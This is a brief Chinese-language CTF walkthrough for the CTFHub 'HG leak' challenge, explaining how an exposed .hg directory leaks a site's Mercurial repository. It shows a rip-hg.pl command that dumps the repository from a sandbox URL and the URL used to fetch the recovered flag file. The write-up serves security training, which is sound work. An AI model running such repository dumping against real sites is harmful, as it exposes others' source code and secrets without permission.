 ```yaml
---
title: HG泄露
date: 2024-11-12T14:01:43Z
lastmod: 2024-11-12T14:14:30Z
---
```


# HG泄露

当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。

​`./rip-hg.pl -u http://challenge-a93378720f5e62ef.sandbox.ctfhub.com:10800/.hg/`​

flag_237051366.txt

​`http://challenge-a93378720f5e62ef.sandbox.ctfhub.com:10800/flag_237051366.txt`​

‍
